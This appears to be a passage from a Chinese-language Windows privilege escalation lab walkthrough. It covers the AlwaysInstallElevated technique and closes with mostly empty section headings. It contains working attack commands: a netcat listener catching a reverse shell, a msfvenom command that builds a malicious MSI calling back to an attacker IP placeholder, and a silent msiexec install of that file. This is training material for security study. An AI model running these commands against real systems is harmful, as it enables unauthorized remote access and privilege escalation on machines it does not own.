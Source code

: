 您将按预期收到具有taskusr1权限的反向shell：  
``````
user@attackerpc$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\taskusr1
``````

>始终安装提升

Windows 安装程序文件（也称为 .msi 文件）用于在系统上安装应用程序。它们通常以启动它的用户的权限级别运行。但是，可以将它们配置为从任何用户帐户（甚至是非特权帐户）以更高的权限运行。这可能会让我们生成一个以管理员权限运行的恶意 MSI 文件。

注意： AlwaysInstallElevated 方法在此房间的计算机上不起作用，它仅供参考。

此方法需要设置两个注册表值。您可以使用以下命令从命令行查询这些内容。
``````
命令提示符
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
``````
为了能够利用此漏洞，两者都应该设置。否则，利用将是不可能的。如果设置了这些，您可以使用 生成恶意 .msi 文件 msfvenom，如下所示：
``````
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
``````
由于这是一个反向 shell，您还应该运行相应配置的Metasploit处理程序模块。传输创建的文件后，您可以使用以下命令运行安装程序并接收反向 shell：
``````
命令提示符
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
``````


### 滥用服务错误配置



### 滥用危险的特权

### 滥用易受攻击的软件

### 其他提权工具

>WinPEAS

>PrivescCheck

>WES-NG



>Metasploit

如果目标系统上已有 Meterpreter shell，则可以使用该multi/recon/local_exploit_suggester模块列出可能影响目标系统的漏洞，并允许您提升目标系统上的权限。
